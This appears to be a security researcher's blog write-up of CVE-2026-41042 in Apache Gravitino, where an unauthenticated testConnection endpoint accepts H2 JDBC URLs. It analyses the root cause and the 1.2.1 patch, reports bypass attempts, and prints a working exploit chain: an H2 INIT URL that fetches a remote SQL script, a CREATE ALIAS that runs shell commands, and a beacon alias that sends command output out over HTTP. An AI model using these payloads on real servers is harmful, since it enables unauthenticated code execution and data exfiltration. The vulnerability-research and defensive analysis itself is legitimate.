

While hunting an incomplete-fix pattern across Apache Gravitino's catalog REST surface, an unauthenticated testConnection endpoint surfaced that hands attacker-controlled jdbc-url strings to the connection factory with zero validation. This memo walks the patch diff, the variant sweep, and the first working PoC for CVE-2026-41042.
1. Why I Was Reading Gravitino's JDBC Code at All
I was not hunting this bug. I was hunting the pattern it belongs to. A string of recent Apache advisories share one shape: a vendor patches a single endpoint, and the same flawed logic survives on a sibling endpoint. The Kyuubi case (CVE-2026-62391 as an incomplete fix of CVE-2025-66518) is the template. That style of hunting means reading the diff first and the endpoints second, so the catalog REST resource in Gravitino 1.2.0 was an obvious place to spend an afternoon, because it accepts arbitrary JDBC connection strings and asks the server to connect with them.
The resource is org.apache.gravitino.server.web.rest.CatalogOperations, and one method stood out immediately: testConnection. Its entire purpose is to make the server open a database connection from values supplied in the request body. As an attack surface that is almost too honest. I checked the advisory list, and CVE-2026-41042 was already assigned (2026-07-08, credited to Junjie Li of Xidian University), affecting Gravitino before 1.2.1, with Apache rating it low. No public PoC existed. That changed the job: not a new CVE, but a working exploitation chain and a real audit of the fix.
2. Root Cause: An Unvalidated jdbc-url Reaches the Connection Factory
POST /api/metalakes/{metalake}/catalogs/testConnection
Body: a CatalogCreateRequest with type, provider, comment, and a properties map. No auth header required.
The handler accepts the full request and forwards it to the dispatcher. In the fixed tree the chain is verifiable end to end:
CatalogOperations.testConnection(CatalogOperations.java:177) forwards to the dispatcherCatalogManager.testConnection(CatalogManager.java:613) builds a dummy catalog entity- the provider's operations are initialized, and for JDBC catalogs
JdbcCatalogOperations.initialize()runs - line 175:
this.dataSource = DataSourceUtils.createDataSource(jdbcConfig) - line 177:
checkJDBCDriverVersion(), which fires only after the connection already exists
In 1.2.0, DataSourceUtils.createDataSource took the request's raw jdbc-url and driver class and pushed them straight into DBCP. No scheme allowlist, no driver validation, no blocklist. The fix's own comment (DataSourceUtils.java:48-51) describes the pre-fix state exactly: H2 was reachable through user-facing catalog configuration.
That is game over for two reasons. First, H2 1.4.200 ships in Gravitino's libs as the default entity-store backend, so org.h2.Driver is on the server classpath whether or not anyone configured H2. Second, H2's INIT connection setting executes arbitrary SQL at connect time, and CREATE ALIAS compiles and runs arbitrary Java. The provider field is only a hint: I sent provider jdbc-mysql with an H2 URL, and the mismatch never mattered, because the MySQL driver-version check runs after initialization, not before. The error path is the execution path.
3. Reading the Patch: What 1.2.1 Actually Changed
Fixed in 1.2.1 (commits 84d3de9c7c and 5daabcd0e), verified against the 1.3.0 tree. The core of the fix is in DataSourceUtils.createDataSource:
String decodedUrl = recursiveDecode(jdbcConfig.getJdbcUrl().toLowerCase()); // line 52
if (decodedUrl.startsWith("jdbc:h2")) { // lines 53-55
throw new GravitinoRuntimeException("H2 JDBC URL is not allowed ...");
}
if (jdbcConfig.getJdbcDriver().toLowerCase().startsWith("org.h2.")) { // lines 56-58
throw new GravitinoRuntimeException("H2 JDBC driver is not allowed ...");
}Two checks, URL and driver, both lowercased, both prefix-based. The driver check is the interesting one: a mismatched driver/URL combination is the obvious first bypass idea, and this closes it.
recursiveDecode (lines 95-110) runs URLDecoder up to five times and throws on malformed input, so percent-encoding the prefix does not dodge the check. A second layer went into createDBCPDataSource, which now calls JdbcUrlUtils.validateJdbcConfig(driver, url, all) at lines 67-68 before building the BasicDataSource. JdbcUrlUtils (JdbcUrlUtils.java:36-86) blocks the known-unsafe MySQL and MariaDB parameters (autoDeserialize, queryInterceptors, the allowLoadLocalInfile family, lines 41-50) and the Postgres ones (socketFactory, sslfactory, authenticationPluginClassName, lines 52-59), scanning both the URL and the config map.
The structural point: the H2 blocklist lives in createDataSource, the single choke point that both testConnection and createCatalog pass through. One fix, both entry points covered. That is the kind of fix that survives contact with reality.
4. Variant Sweep: A Second Entry Point, Then Bypass Attempts
Because createCatalog shares the initialization path, I tested it with the same malicious URL. It returned HTTP 200 and persisted the H2 INIT URL in the catalog config. Any later connection-forcing operation (GET /api/metalakes/{ml}/catalogs/{cat}/schemas) re-runs initialize(), and the command fires again. A persistent variant: fire once, detonate later.
Then the bypass sweep against a replica of the 1.2.1 check with real H2 1.4.200:
- leading whitespace before jdbc:h2: the check passes, H2 rejects the URL (no suitable driver). Dead end
- trailing whitespace: H2 accepts it, but the check still blocks, because the match is a prefix match on the decoded string
- six or more percent-encodings: recursiveDecode exits after five passes leaving jdbc%3ah2%3a..., the check passes, and H2 rejects the encoded prefix. Dead end
- case tricks, tab characters, suffix tricks: all caught by the lowercased prefix match
- non-JDBC providers (hive, kafka): they never route an attacker jdbc-url into DataSourceUtils at all
The H2 vector is solidly fixed; I found no clean bypass (i actually just did, and have responsibly disclosed it). Two adjacent gaps remain worth writing down. Both endpoints stay unauthenticated when gravitino.authorization.enable is false, which is the default, because the @AuthorizationExpression on each handler only enforces when auth is enabled. And the blocklist is H2-specific: a future bundled embedded database with an INIT-style connect-time execution hook would sail past it. Defense in depth here is a scheme allowlist, not a per-driver blocklist.
5. From Understanding to Execution: The PoC
First cut was a static payload file and a marker-file proof:
CREATE ALIAS IF NOT EXISTS SHELLEXEC AS $$
String shellexec(String cmd) throws java.io.IOException {
Process p = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/c", cmd});
try { p.waitFor(); } catch (InterruptedException e) { }
return "executed";
}
$$;
CALL SHELLEXEC('echo PWNED_BY_H2_INIT > C:/.../gravitino_pwned.txt');Fired with:
jdbc:h2:mem:testdb;INIT=RUNSCRIPT FROM 'http://127.0.0.1:9000/poc.sql'
jdbc-user: sa jdbc-password: "" jdbc-driver: org.h2.DriverThe response was HTTP 500, and the marker appeared anyway, because checkJDBCDriverVersion fires after createDataSource. A whoami run against a fresh metalake created anonymously in the same chain returned the Gravitino service account. Zero auth headers.
Blocker one: a marker file is a lab proof, not a deliverable. The fix was a second alias that turns the connection itself into a side channel:
CREATE ALIAS IF NOT EXISTS BEACON AS $$
String beacon(String s) throws java.io.IOException {
java.net.URL u = new java.net.URL("http://127.0.0.1:{port}/beacon?out="
+ java.net.URLEncoder.encode(s, "UTF-8"));
u.openConnection().getInputStream().close();
return s;
}
$$;
CALL BEACON(SHELLEXEC('whoami'));The command's stdout comes back over HTTP regardless of what the server responds. Blocker two: H2 in-memory databases keep aliases for the life of the pool, so a second run against the same named DB could hit stale state. The script generates a fresh random database name per run (secrets.token_hex(6)), which keeps every run deterministic.
The final script is stdlib-only and self-contained: a threaded HTTP server on 127.0.0.1 with two routes, /poc.sql serving the generated payload and /beacon capturing output into a shared dict, then the testConnection POST, then a five-second beacon poll that prints the command's stdout directly. No external file server, no manual steps. The lab is Windows, so the alias uses cmd.exe /c; on a Linux deployment the identical payload works with sh -c, and only the alias body changes. Poc - https://github.com/Lulztigre/cve-2026-41042

6. Verdict on the Severity Call
Apache's low rating rests on H2 being mainly for testing and Gravitino being typically deployed internally (duhh, many of my targets are during internal engagements). The default install contradicts both premises: H2 is the default entity-store backend and ships in the distribution, testConnection is unauthenticated on the default configuration, and the default bind is 0.0.0.0:8090. A realistic CVSS v3.1 estimate is 8. The rating was optimistic, and the missing PoC was the gap between the rating and reality (i believe).
The reusable lessons from this one: treat every test-connection style endpoint as a code-execution primitive, not a diagnostics feature. Ordering inside the connection factory is security-relevant: any check that runs after the connection exists is a check that never fires in time. A blocklist is a list, not a boundary; validate the driver/URL pair against an allowlist of supported catalogs. And the hunting pattern that found this one, one endpoint patched while siblings share the code path, is exactly the pattern that finds the next one. CVE-2026-41042 is claimed, the PoC is now public, and the variant surface around it is not closed.
@article{lulz2026_gravitino-,
author = {LulzTigre},
title = {The Test Connection That Executes Code: CVE-2026-41042 in Apache Gravitino},
journal = {LulzTigre Research Dispatches},
year = {2026},
url = {https://lulztigre.pw/posts/gravitino-test-connection-rce-41042.html}
}